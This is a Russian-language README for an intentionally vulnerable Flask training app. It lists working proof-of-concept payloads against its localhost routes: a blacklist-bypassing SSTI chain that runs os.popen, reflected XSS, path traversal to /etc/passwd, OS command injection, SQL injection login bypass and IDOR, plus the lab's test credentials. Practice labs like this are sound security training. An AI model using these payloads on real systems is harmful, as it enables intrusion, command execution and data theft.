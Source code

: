 # vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)

<p>&nbsp;</p>

SQLI:
> форма авторизации в админ панель подвержена sql инъекциям. url - http://127.0.0.1:8089/login

>в базе данных есть два юзера - admin:jasper, wiener:password

>При успешной авторизации, происходит редирект на /admin-panel?user={username}
>![image](https://github.com/medarov411/vuln-app/assets/60567375/6e520b0f-355b-4377-8839-0b1740a8bcf7)
P.S не обращайте внимания, что там написано IDOR. Эта админ панель далее будет использована в демонстрации IDOR уязвимости.

>При не правильных данных: Login Failed
>![image](https://github.com/medarov411/vuln-app/assets/60567375/486498d8-1a5b-4fa2-a2de-7922159825b4)

>пейлоад: admin' or 1=1--

<p>&nbsp;</p>

IDOR:
> idor связан с админ панелью. У нас есть второй юзер wiener. Но когда он авторизовывается, то доступ у него закрыт к админ панели.
![image](https://github.com/medarov411/vuln-app/assets/60567375/ae45a797-1f04-4299-a1d0-a2633404bbcb)

> Но если изменить параметр user в /admin-panel?user=wiener на /admin-panel?user=admin, то доступ появляется
 
### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)


